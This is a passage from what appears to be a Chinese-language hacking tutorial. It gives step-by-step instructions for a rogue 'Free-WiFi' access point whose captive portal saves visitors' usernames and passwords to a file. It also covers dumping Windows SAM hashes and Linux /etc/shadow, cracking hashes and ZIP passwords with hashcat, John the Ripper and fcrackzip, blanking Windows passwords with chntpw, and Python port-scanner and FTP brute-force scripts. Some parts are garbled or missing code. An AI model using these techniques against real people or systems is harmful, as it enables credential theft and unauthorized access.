#Set wireless interfaceinterface=wlan0#Set network namessid=Test-WiFi#Set channelchannel=11#Set driverdriver=nl80211
```

在上面的示例中，定义了一个网络名称为“Test-WiFi”的接入点，它将在信道 11 上运行，使用无线网络接口 `wlan0`。


将文件保存为 `hostapd.conf`。

此时，你可以使用以下命令启动接入点：

```
dnsmasq -C /root/dnsmasq.conf
hostapd /root/hostapd.conf
```



现在 `hostapd` 正在运行，请在另一台电脑或手机上检查，你会发现一个 SSID 为 "Test-WiFi" 的无线网络。



## 为接入点提供互联网接入

一旦接入点运行起来，从另一个接口共享互联网连接是常见场景。为此，你可以使用 `bridge-utils` 通过桥接接口提供互联网，输入以下命令：

```
brctl addbr br0
brctl addif br0 eth0
ifconfig br0 up
```

这将在 `br0` 和 `eth0` 之间创建一个桥接。在我的例子中，`eth0` 有互联网接入，因此请确保使用 `ifconfig` 命令查找具有互联网接入的接口。

最后一步是使用 `nano` 文本编辑器修改 `hostapd.conf` 文件。

```
nano hostapd.conf
```



然后在无线接口 `wlan0` 下输入 `bridge=br0`。

保存文件并使用以下命令重启接入点：

```
hostapd /root/hostapd.conf
```

现在，连接到接入点的客户端将拥有互联网接入。

# 设置强制门户登录页面

启动 Linux 系统，在终端中输入：

```
apt install dnsmasq hostapd
```

然后，确定你将用于接入点的无线网络设备。运行 `iwconfig` 命令查看可用的无线网络设备（`wlan0`、`wlan1`）。


一旦确定了你的无线接口，请在终端中使用 `nano` 文本编辑器设置配置文件。

```
nano dnsmasq.conf
```

并添加以下行。

```
#设置无线接口
interface=wlan0
#设置客户端的 IP 范围
dhcp-range=192.168.1.2,192.168.1.250,12h
#设置网关 IP 地址
dhcp-option=3,192.168.1.1
#设置 DNS 服务器地址
dhcp-option=6,192.168.1.1
#将所有请求重定向到 192.168.1.1
address=/#/192.168.1.1
```

此配置文件将告诉 `dnsmasq` 使用 `wlan0` 接口，并开始向客户端分配 IP 地址。

最后一行将所有请求重定向到 IP 地址 `192.168.1.1`。这是托管强制门户页面的服务器地址。

当连接到网络的客户端尝试访问任何网站时，它们的 DNS 请求会被拦截并重定向到托管在服务器（`192.168.1.1`）上的强制门户页面。别忘了保存文件。

接下来，我将创建另一个配置文件，这次名为 `hostapd.conf`。

```
nano hostapd.conf
```

添加以下行：

```
#设置无线接口
interface=wlan0
#设置网络名称
ssid=Free-WiFi
#设置信道
channel=11
#设置驱动程序
driver=nl80211
```

在上面的配置中，定义了一个网络名称为 "Free-WiFi" 的接入点，它将在信道 11 上运行，使用无线网络接口 `wlan0`。

将文件保存为 `hostapd.conf`。

此时，你可以使用以下命令启动接入点：

```
dnsmasq -C /root/dnsmasq.conf
hostapd /root/hostapd.conf
```



你还需要使用以下命令为 `wlan0` 接口分配 IP 地址：

```
ifconfig wlan0 192.168.1.1/24
```

## 将强制门户复制到 Web 服务器

要设置强制门户登录页面，你需要创建或下载一个强制登录页面，并将文件复制到 Web 服务器可访问的位置。



在这里，你可以看到一个基本的 HTML 登录页面，当客户端尝试连接到接入点时，该页面将会出现。

$ [NC]
RewriteRule ^(.*)$ http://%1/$1 [R=301,L]
RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteRule ^(.*)$ / [L,QSA]
</Directory>
```

上述重写规则将使强制门户的重定向正常工作。别忘了保存文件，并在终端中使用 `service apache2 start` 启动服务器。

现在，我将切换到另一台计算机并连接到 `Free-WiFi` 网络。



基本上，这段代码将从登录表单中获取用户名和密码，并将它们保存到名为 `capture.txt` 的文件中。

接下来，你需要修改 `index.html` 文件并添加脚本。

```
nano index.html
```



在这里，转到 action，在等号后输入 "/post.php"。别忘了保存文件，并使用 `service apache2 restart` 重启服务器。

现在，如果我连接到 Wi-Fi 网络，我将被自动重定向到强制登录页面，该页面如下所示。



因此，在登录表单中，我将输入 'John' 作为用户名，'letmein' 作为密码，然后点击 "Login"。

让我们回到 `/var/www/html` 位置，并使用 `nano` 打开 `capture.txt` 文件。

```
nano capture.txt
```



在这里你可以看到用户名和密码。

# 第三章：密码哈希与破解

密码哈希是使用哈希函数将密码转换为不可识别的字符序列（如 "1a1dc91c907325c69271ddf0c944bc72"）的过程。

这使得恶意行为者难以获取密码，因为这些字符不可读。即使黑客获得了数据库的访问权限，他也无法看到明文密码。

现在，如果密码以明文形式存储，任何具有内部访问权限的人都可以看到它们。更不用说如果数据库被泄露，黑客也会看到明文/清晰文本形式的凭据。

以明文形式存储意味着你直接将用户的身份与其密码以可读的数据格式关联起来，如下图所示：

，通过 MD5 算法为密码"letmein123"生成一个哈希值。



| 4ca7c5c27c2314eecc71f67501abb724 |

这是"letmein123"的 MD5 哈希值。这就是密码在数据库服务器中的样子，而不是明文的"letmein123"。

同样地，我将为"letmein123"生成另一个哈希值。这次，我将使用 SHA256 算法。

| 9b0eb22aef89516d6fb4b31ccf008a68abe0d10a3fc606316389613eccf96854 |

你可以看到密码"letmein123"的 SHA256 哈希值。

## 破解哈希值

密码哈希的最大问题在于，如果你对一个特定的单词（如"letmein123"）运行哈希算法，该单词的哈希结果将始终相同。

因此，可以使用字典攻击等方法来逆转哈希值，这种方法将给定的哈希值与字典文件中常见单词的哈希值进行比较。现在让我们看看如何破解哈希值。为此，我将使用一个名为"[crackstation.net](https://crackstation.net/)"的网站。



在这里，我将放入两个哈希值，MD5 和 SHA256，然后点击"Crack Hashes"。



你可以看到哈希值已被成功破解。

如果密码长度较短，你可以破解哈希值。为了保护你的密码，请使用包含数字和特殊字符的长密码，将它们存储在密码管理器中，并且不要在不同的账户上使用相同的密码。

|   |  |   |


# 使用 Hashcat 破解密码哈希值


Hashcat 是世界上最快、最先进的密码恢复工具，有助于破解复杂的密码哈希值。它是一个灵活且功能丰富的工具，提供了多种从哈希值中查找密码的方法。

对于不了解的人来说，密码哈希是一个使用哈希函数将密码转换为不可识别的字符序列（如"1a1dc91c907325c69271ddf0c944bc72"）的过程。

这使得恶意行为者难以获取密码，因为这些字符不可读。

## 安装 Hashcat

Hashcat 在 Kali Linux 中预装。要在基于 Debian 的系统中安装它，请使用以下命令：

```
apt install hashcat
```

安装完成后，你可以在终端中使用`hashcat -h`命令查看 Hashcat 的帮助菜单。

在破解之前，让我们创建一些可供使用的哈希值。存在许多哈希算法，如 MD5、SHA1、SHA256、NTMLv2 等。

在本例中，我将使用一个[在线工具](https://emn178.github.io/online-tools/)，为密码"letmein456"生成两个哈希值：一个 MD5 哈希值和一个 SHA256 哈希值。

| 0e88c5706dc5f028ac7c7d31d6cd1538 ==>MD5b59717793d432dd2c4edf0c960948ef581d8499393aaef6214a5fbd4cb1c2e3d ==>SHA256 |

这是为密码"letmein456"生成的哈希值。

## 破解哈希值

除了 Hashcat，你还需要一个字典文件。字典文件是一个包含常用密码的文本文件。一个流行的密码字典文件是`rockyou.txt`。

它包含常用密码列表，在渗透测试人员中很受欢迎。你可以在 Kali Linux 的`/usr/share/wordlists`目录下找到 rockyou 字典文件。

让我们首先使用`nano`将哈希值复制到文本文件中，然后破解 MD5 哈希值。

```
nano md5hash.txt
```



然后使用以下命令破解哈希值。

```
hashcat -m 0 md5hash.txt rockyou.txt
```

`-m 0`：MD5 哈希模式。你可以在[此页面](https://hashcat.net/wiki/doku.php?id=example_hashes)上查看所有代码。

`md5hash.txt`：包含哈希值的 txt 文件。

`rockyou.txt`：字典文件。



哈希值被成功破解，结果是"letmein456"。

看起来很简单，不是吗？现在让我们破解 SHA256 哈希值。SHA256 的哈希模式值是 1400。命令如下：

```
hashcat -m 1400 sha256hash.txt rockyou.txt
```



你可以看到状态是"Cracked"，并且再次得到了密码"letmein456"。你也可以通过将多个哈希值放入文本文件来破解它们。

```
nano hash-list.txt
```



现在运行以下命令。

```
hashcat -m 1400 -a 0 hash-list.txt rockyou.txt -o cracked.txt
```

`hash-list.txt`：包含多个哈希值的文本文件。

`cracked.txt`：用于输出已破解哈希值的文本文件。

要检查已破解的哈希值，请在终端中使用"cat"命令。

```
cat cracked.txt
```



在这里你可以看到我已经破解了三个哈希值。

Hashcat 是一个强大的工具，可以帮助你破解密码哈希值。为了加强安全性并保护哈希值免受攻击，请使用包含数字和特殊字符的强密码。

|   |  |   |


# 使用 John the Ripper 破解 Windows 密码


John the Ripper 是一个离线密码破解工具，旨在测试密码强度、暴力破解加密（哈希）密码，并通过字典攻击破解密码。简单来说，John 就是用来破解密码的。

## 从 Windows 中提取哈希值

你需要做的第一件事是从 SAM 文件中获取密码哈希值。安全账户管理器（SAM）是 Windows 10/8/7 中的一个数据库文件，它以加密形式存储用户密码，可能位于以下目录：

```
C:\Windows\system32\config
```

要提取 SAM 文件，请在 Windows 机器上打开命令提示符（`cmd`）并输入以下命令：

```
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
```

这些命令将从你当前的系统中获取密码哈希值，并将其保存到`C:\`驱动器。


现在你需要复制这两个文件（`sam.save`，`system.save`），切换到 Kali Linux 机器或其他 Linux 发行版，并将文件粘贴到桌面上。


要查看文件中的哈希值，我将在终端中使用以下命令。

```
impacket-secretsdump -sam sam.save -system system.save LOCAL
```



在这里你可以看到账户和哈希值。就我而言，我将选择破解用户"John"的密码。


为此，我将复制哈希值（`4b73ab495e53411975629cebebc9621c`）并使用`nano`文本编辑器创建一个新的文本文件。

```
nano johnhash.txt
```



并将哈希值粘贴到这里。别忘了保存文件。

## 破解密码

在这一步中，我将使用 John the Ripper 的字典模式来破解用户密码。在这种模式下，John 可以读取你提供的文本文件中的密码。

在本例中，我将使用 rockyou 字典文件。要开始破解过程，请使用以下命令。

```
john --format=NT --wordlist rockyou.txt johnhash.txt
```

`rockyou.txt`是来自 Kali Linux 的字典文件。

`johnhash.txt`是我使用`nano`放入用户"John"哈希值的文本文件。



在这里，你可以清楚地看到 John the Ripper 已经破解了密码，结果是"letmein"。

John the Ripper 可能是世界上最著名的密码破解工具。由于其多功能性和易用性，它经常被渗透测试人员和黑帽黑客使用。

|   |  |   |


# 使用 John the Ripper 破解 Linux 密码


当你在 Linux 中创建用户账户并设置密码时，系统并不会以明文形式存储密码。相反，它会将哈希值存储在一个名为 `/etc/shadow` 的文件中。

该文件仅 root 用户可读，每一行包含一个用户名及其哈希后的密码，如下所示：

| `newuser:$y$j9T$vsFOgjanE/bchXfDigS/G.$AhWziPaBF1N1l.GaH7dnrXe7wGN9YW5u09NF0V602RC:...` |

以 `$y$` 开头的长字符串就是实际的密码哈希值，在本例中，它使用的是 `yescrypt` 哈希算法（现代 Linux 系统默认使用）。

## 提取并破解哈希值

要获取哈希值，你需要使用以下命令打开 `/etc/shadow` 文件：

```
cat etc/shadow
```



查找以你的目标用户名开头的行。在本例中，我将选择 “newuser”。

接下来，仅复制哈希部分（冒号之后、下一个冒号之前的所有内容），并使用 `nano` 终端文本编辑器将其粘贴到一个文本文件中。

```
nano hash.txt
```



然后使用以下命令来破解哈希值。

```
john—format=crypt hash.txt—wordlist=passwords.txt
```

- `hash.txt`：包含哈希值的 txt 文件。
- `passwords.txt`：字典文件。

`John` 将开始尝试用你字典中的所有密码来匹配该哈希值。如果真实密码在列表中，它将成功破解并显示类似以下内容：

  |  |   |


# 破解密码保护的 ZIP 文件


我将向你展示如何使用名为 `fcrackzip` 的工具来破解受密码保护的 ZIP 文件。

`Fcrackzip` 是一个可用于解密 zip 文件并确定其密码的工具。它能够通过暴力破解或基于字典的攻击来破解受密码保护的 zip 文件。

## 安装

`Fcrackzip` 可以使用以下命令进行安装。

```
apt install fcrackzip
```

此时，你可以在终端中输入 `fcrackzip – help` 来访问该工具的帮助菜单。



## 创建受密码保护的 ZIP 文件

首先，我必须生成一个受密码保护的文件。为此，我将使用以下命令。

```
touch secretinfo.txtzip—password 12345678 secretinfo.zip secretinfo.txt
```

第一条命令将创建一个名为 `secretinfo` 的文本文件，第二条命令将生成一个密码为 “12345678” 的受密码保护的 ZIP 文件，在我的例子中，文件名为 `secretinfo.zip`。你可以使用 `ls` 命令查看该 ZIP 文件。


## 使用字典破解密码

在此模式下，`fcrackzip` 可以从你提供的文本文件中读取密码，密码必须包含在你使用的字典文件中。

如果密码不在字典中，则 `fcrackzip` 将无法确定密钥。使用以下命令来破解密码。

```
fcrackzip -D -p /home/frost/rockyou.txt -u secretinfo.zip
```

让我们分解一下这个命令：

- `-D` 指定你正在使用字典或单词列表。
- `-p` 指定密码文件。
- `/home/frost/rockyou.txt` 是字典文件的路径/位置。在我的例子中，我使用的是 `rockyou.txt`。
- `-u` 使用 unzip
- `secretinfo.zip` 是受密码保护的 ZIP 文件。

设置好命令后，按 “Enter” 键开始破解过程。



在这里你可以看到密码已被找到。

|   |  |   |


# 使用 Kali Linux 绕过 Windows 密码


在本章中，你将学习如何重置/移除任何 Windows 计算机上遗忘的密码。

使用此方法，你可以在不知道用户密码且不格式化硬盘的情况下解锁任何 Windows 设备。

为了进行此实验，我将使用一个名为 `chntpw` 的小程序。这个 `chntpw` 可以移除 Windows SAM 文件中用户的密码，甚至可以编辑 Windows 注册表。该工具在 Kali Linux 中默认预装。

## 制作 Kali Linux 可启动 USB

当你被锁在 Windows 之外时，你需要使用另一台计算机来制作 Kali 可启动 USB。请按照以下步骤操作。

- 下载 [Kali Linux](https://old.kali.org/kali-images/kali-2023.3/kali-linux-2023.3-live-arm64.iso) 的 ISO 镜像。它是免费的。
- 接下来，你需要一个程序将 Kali 安装到你的 USB 驱动器并使其可启动。我将使用 [Rufus](https://rufus.ie/en/)。只需下载并将其安装在你的本地 PC 上。
- 启动 `Rufus` 实用程序，并浏览定位你的 Kali Linux 镜像。
- 单击 “Start” 以创建 Kali Live USB 驱动器。

成功创建可启动 USB 后，将其插入 Windows 计算机的 USB 端口，并从 USB 启动。

在启动过程中，你可能需要按一个特殊键（例如 `Esc`、`F2`、`F12`、`Del` 等），以使计算机从 USB 而不是硬盘启动。

## 移除 Windows 密码

这里我已经进入了 Kali Linux 操作系统。


单击 “File System” 并打开它。打开后，选择安装了 Windows 的 Windows 机器的驱动器。



之后，右键单击此位置的空白处，选择 “open terminal here”，然后使用 `cd` 命令进入 `/Windows /System32/config/`。现在你已经到达了 Windows 密码文件所在的位置。

### 列出用户

使用以下命令查找 Windows 机器上的所有现有用户。

```
chntpw -l SAM
```



选择你想要移除密码的用户。在我的例子中是 “Workgroup”。只需替换用户名并执行以下命令。

```
chntpw -u Workgroup SAM
```



执行命令后，它会显示不同的选项。你所要做的就是选择选项 1 “Clear (blank) user password” 来移除 Windows 密码。



然后按 “q” 和 “y” 保存更改。

此时，你可以重启计算机并拔掉 USB 驱动器，你会看到登录时不再需要密码。我希望这在你需要重置/移除 Windows 密码时能有所帮助。

|   |  |   |


# 第四章：Python 脚本


Python 是每位网络安全专家都依赖的语言。它实用、强大，并且在黑客世界中无处不在。那么，让我们来看看黑客喜欢 Python 的一些原因：

- 易于学习：即使你从未写过一行代码，Python 也是最容易学习的编程语言之一。它的语法读起来几乎像英语，这使其非常适合网络安全初学者。
- 构建你自己的工具：想编写一个端口扫描器、一个暴力破解脚本，或者一个监听网络流量的工具？你都可以用 Python 完成，通常只需几行代码。
- 大量的黑客库：需要扫描网络？破解密码？可能有一个 Python 库可以做到。像 `scapy`、`socket`、`requests` 和 `nmap` 这样的工具，只需几行代码就能赋予你超能力。
- 自动化一切：厌倦了反复运行相同的命令？Python 可以自动化扫描网络、抓取网站、测试密码或解析日志。

---


## 编写一个基本的端口扫描器


假设你想检查网络中某个设备的特定端口是否开放。与其依赖别人的工具，不如自己动手编写一个：

```python
import socket
target = "192.168.52.131"
ports = [21, 22, 80, 443]
print(f"Scanning {target}...\n")
for port in ports:
    sock = socket.socket()
    result = sock.connect_ex((target, port))
    if result == 0:
        print(f"[+] Port {port} is OPEN")
    else:
        print(f"[-] Port {port} is CLOSED")
    sock.close()
```

这个小脚本是一个基础的端口扫描器。它检查 IP 地址为`192.168.52.131`的设备上某些端口（如 21 用于 FTP，22 用于 SSH，80 用于 HTTP，443 用于 HTTPS）是否开放。

所以，不到 15 行代码，你就构建了一个实用的工具，这就是 Python 的力量。

要运行这个端口扫描器，只需将代码保存到一个文件中，例如命名为`port_scanner.py`。然后，打开终端，导航到文件保存的文件夹，并运行：

```bash
python3 port_scanner.py
```



一旦运行，脚本将开始检查每个端口，并告诉你哪些端口是开放的或关闭的。

 


# 带操作系统检测的网络扫描器


在本课中，你将构建一个网络扫描器，它将尝试猜测设备的操作系统，并扫描最常见的端口（1-1024）以查看哪些端口是开放的。让我们开始吧。

首先，我将使用 nano 终端文本编辑器创建一个新文件。

```bash
nano network_scanner.py
```

添加以下代码：

```python
import socket
import scapy.all as scapy

def guess_os(ttl):
    if ttl >= 128:
        return "Windows"
    elif ttl >= 64:
        return "Linux/Unix"
    return "Unknown"

def detect_os(ip):
    pkt = scapy.IP(dst=ip) / scapy.ICMP()
    reply = scapy.sr1(pkt, timeout=2, verbose=0)
    return guess_os(reply.ttl) if reply else "OS could not be detected"

def scan_ports(ip):
    print(f"\n[+] Scanning ports on {ip}...\n")
    try:
        for port in range(1, 1025):  # Scan ports 1-1024
            with socket.socket() as sock:
                sock.settimeout(0.3)
                if sock.connect_ex((ip, port)) == 0:
                    print(f"[+] Port {port} is OPEN")
    except KeyboardInterrupt:
        print("\n[!] Scan stopped by user.")

def main():
    print("Port & OS Scanner\n")
    ip = input("Enter IP address to scan: ").strip()
    print("\n🔍 Detecting OS...")
    print(f"[+] OS Guess: {detect_os(ip)}")
    scan_ports(ip)

if __name__ == "__main__":
    main()
```

---


这个脚本结合了道德黑客中的两个基本任务：识别系统的操作系统和扫描其端口。

## 运行脚本

将脚本保存到一个文件（`scanner.py`）。然后打开终端，导航到脚本保存的文件夹，并使用以下命令运行：

```bash
python3 scanner.py
```



系统会要求你输入一个 IP 地址，只需输入你想扫描的地址。然后脚本将尝试检测操作系统并检查哪些端口是开放的。

 


# 构建一个 FTP 破解器


在本课中，你将学习如何使用 Python 构建一个简单的 FTP 暴力破解密码破解器。在这个例子中，我将针对一个运行 vsftpd 的测试 FTP 服务器，这是一个在实践环境中常用的流行 FTP 服务器。

我将使用一个可能的密码列表（称为字典文件），并尝试用每个密码登录，看看是否能找到正确的密码。让我们开始吧。

使用 nano 文本编辑器创建一个名为`ftpcracker.py`的文件。

```bash
nano ftpcracker.py
```

添加以下代码：

```python
from ftplib import FTP

target = "192.168.1.100"
username = "admin"
wordlist = "passwords.txt"

with open(wordlist, "r") as file:
    passwords = file.readlines()

for password in passwords:
    password = password.strip()
    try:
        ftp = FTP(target)
        ftp.login(user=username, passwd=password)
        print(f"[+] Login successful! Password found: {password}")
        ftp.quit()
        break
    except:
        print(f"[-] Failed login with: {password}")
```

这个 Python 脚本连接到一个 FTP 服务器（你将提供 IP 地址），并使用相同的用户名（`admin`）但来自名为`passwords.txt`文件的不同密码反复尝试登录。脚本会逐一尝试每个密码，直到找到一个有效的密码或完成列表。

## 运行脚本

将你的密码猜测保存到一个名为`passwords.txt`的文件中，并将脚本中的`192.168.1.100`替换为 FTP 服务器的实际 IP 地址。

然后运行以下命令：

```bash
python3 ftpcracker.py
```



脚本正在尝试不同的密码来登录 FTP 服务器。

它开始从列表中测试密码，如“123456789”和“mypassword32”，但这些尝试都失败了。

最终，它找到了正确的密码：“letmein123”，并打印一条成功消息让你知道它起作用了。

 


# 使用 Python 创建键盘记录器


键盘记录器（或击键记录器）是一种监控和记录你在电脑或手机上输入内容的软件。

